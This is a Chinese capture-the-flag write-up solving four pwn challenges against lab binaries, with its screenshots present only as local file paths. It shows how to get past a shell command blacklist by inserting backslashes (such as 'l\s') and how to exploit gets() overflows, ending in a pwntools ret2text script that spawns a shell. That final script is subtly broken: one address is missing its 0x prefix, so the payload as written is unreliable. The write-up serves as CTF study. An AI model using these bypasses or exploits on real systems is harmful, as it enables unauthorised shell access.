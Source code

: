 # PWN



## 1.nc一下就出来*

下载好附件后，检查文件保护及类型等相关信息，发现是64位，就用64位ida打开

<img src="C:\Users\22474\Desktop\kaohe-pwn\PWN.assets\屏幕截图 2024-10-16 123207.png" alt="屏幕截图 2024-10-16 123207" style="zoom: 67%;" />

<img src="C:\Users\22474\Desktop\kaohe-pwn\PWN.assets\屏幕截图 2024-10-16 124224.png" alt="屏幕截图 2024-10-16 124224" style="zoom:67%;" />

检查附件发现，连上之后就会获得交互权限，第一次命令会被消除掉，然后输出’不要做坏事‘后就可以输入指令进行交互，ls查看目录，cat flag获得flag

<img src="C:\Users\22474\Desktop\kaohe-pwn\PWN.assets\屏幕截图 2024-10-16 124654.png" alt="屏幕截图 2024-10-16 124654" style="zoom:67%;" />

## 2.再nc一下**

检查附件，用64位ida打开分析附件

<img src="C:\Users\22474\Desktop\kaohe-pwn\PWN.assets\屏幕截图 2024-10-16 124842.png" alt="屏幕截图 2024-10-16 124842" style="zoom: 67%;" />

发现reverse函数和blacklisted函数，点进去看一下

<img src="C:\Users\22474\Desktop\kaohe-pwn\PWN.assets\屏幕截图 2024-10-16 125017.png" alt="屏幕截图 2024-10-16 125017" style="zoom: 67%;" />

reverse函数内，将输入的字符串进行了反转

![屏幕截图 2024-10-16 125035](C:\Users\22474\Desktop\kaohe-pwn\PWN.assets\屏幕截图 2024-10-16 125035.png)

blacklist函数内，存在不能使用的命令 ls cd ‘ 空格’ cat echo ${IFS}

<img src="C:\Users\22474\Desktop\kaohe-pwn\PWN.assets\屏幕截图 2024-10-16 125151.png" alt="屏幕截图 2024-10-16 125151" style="zoom:67%;" />

<img src="C:\Users\22474\Desktop\kaohe-pwn\PWN.assets\屏幕截图 2024-10-16 125214.png" alt="屏幕截图 2024-10-16 125214" style="zoom:67%;" />

所以我们需要反着输入命令，并且不能出现黑名单里的命令，可以通过添加无效字符，也就是说输入 l\s，执行时是 l\s=ls，但在字符串判断时肯定不是相同的。所以我们可以通过输 入时添加无效字符来绕过这个过滤 

![屏幕截图 2024-10-16 124929](C:\Users\22474\Desktop\kaohe-pwn\PWN.assets\屏幕截图 2024-10-16 124929.png)

## 3.Overflow**

![屏幕截图 2024-10-16 125351](C:\Users\22474\Desktop\kaohe-pwn\PWN.assets\屏幕截图 2024-10-16 125351.png)

用64位ida打开

![屏幕截图 2024-10-16 125443](C:\Users\22474\Desktop\kaohe-pwn\PWN.assets\屏幕截图 2024-10-16 125443.png)

存在危险函数[gets](https://so.csdn.net/so/search?q=gets&spm=1001.2101.3001.7020)，填满数组v4后填充v5，当v5 ！=0时，自动弹出flag，所以要用变量覆写

exp如下

![屏幕截图 2024-10-16 130234](C:\Users\22474\Desktop\kaohe-pwn\PWN.assets\屏幕截图 2024-10-16 130234.png)

## 4.Search***

检查保护也是64位，用64位ida打开，分析附件

![屏幕截图 2024-10-16 131458](C:\Users\22474\Desktop\kaohe-pwn\PWN.assets\屏幕截图 2024-10-16 131458.png)

gets函数

![屏幕截图 2024-10-16 131516](C:\Users\22474\Desktop\kaohe-pwn\PWN.assets\屏幕截图 2024-10-16 131516.png)

![屏幕截图 2024-10-16 131353](C:\Users\22474\Desktop\kaohe-pwn\PWN.assets\屏幕截图 2024-10-16 131353-1729057184149-29.png)

我们可以挟持程序流到该/bin/s处执行，从而获取交互权限，先把v4填充满128个字节，再填充64位程序的8个字节，,再进行栈平衡，地址是0x40044e，在挟持程序流到/bin/sh处0x400586

exp如下：

from pwn import*

p=remote("环境")

payload=b'b'*136+p64(0x40044e)+p64(400586)

p.sendline(payload)

p.interactive()
